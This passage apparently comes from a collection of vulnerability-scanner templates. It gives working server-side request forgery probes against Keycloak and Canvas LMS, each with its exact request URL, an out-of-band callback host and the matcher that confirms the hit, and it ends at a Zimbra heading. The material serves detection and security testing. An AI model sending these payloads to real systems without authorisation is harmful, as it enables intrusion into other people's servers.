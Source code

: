 ## Requests

- Method - GET

### URL

- {{BaseURL}}/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=cfx&nonce=cfx&client_id=security-admin-console&request_uri=http://{{interactsh-url}}/

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Canvas LMS Unauthenticated Blind SSRF

## Description

- Server-Side Request Forgery in Canvas LMS 2020-07-29 allows a remote, unauthenticated attacker to cause the Canvas application to perform HTTP GET requests to arbitrary domains.
- severity - medium
- tags - cve,cve2020,ssrf,oast,blind,tenable

## Requests

- Method - GET

### URL

- {{BaseURL}}/external_content/retrieve/oembed?endpoint=http://{{interactsh-url}}&url=foo

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Zimbra Collaboration Suite < 8.8.15 Patch 7 - Server-Side Request Forgery
